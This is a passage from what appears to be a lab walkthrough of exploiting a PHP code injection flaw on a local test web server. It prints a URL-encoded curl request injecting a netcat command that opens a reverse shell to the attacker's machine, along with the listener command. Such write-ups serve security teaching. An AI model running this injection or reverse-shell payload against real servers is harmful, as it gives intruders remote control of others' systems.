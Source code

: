 ![](images/curlphp.png "Performing the code injection with cURL")

Now that we know we can execute arbitray PHP code on the web server, we can set up a shell for us to use with `nc` and a crafted web request. On the attacking machine, we'll use the command `nc -lvp 4444` so that `nc` listens on port 4444 for a connection. Then, we'll use cURL again with the command `curl -X POST http://10.0.2.7/index.php?page=%27%29%3B%24%7Bsystem%28%27nc%20-e%20%2fbin%2fsh%2010.0.2.5%204444%27%29%7D%3B%23%22`. This URL encodes the PHP code `');${system('nc -e /bin/sh 10.0.2.5 4444')};#"`, which will spawn an instance of /bin/sh with its input and output redirected to the given IP and port, essentially allowing us to have a shell.

![](images/ncshell.png "Spawning a shell with nc")
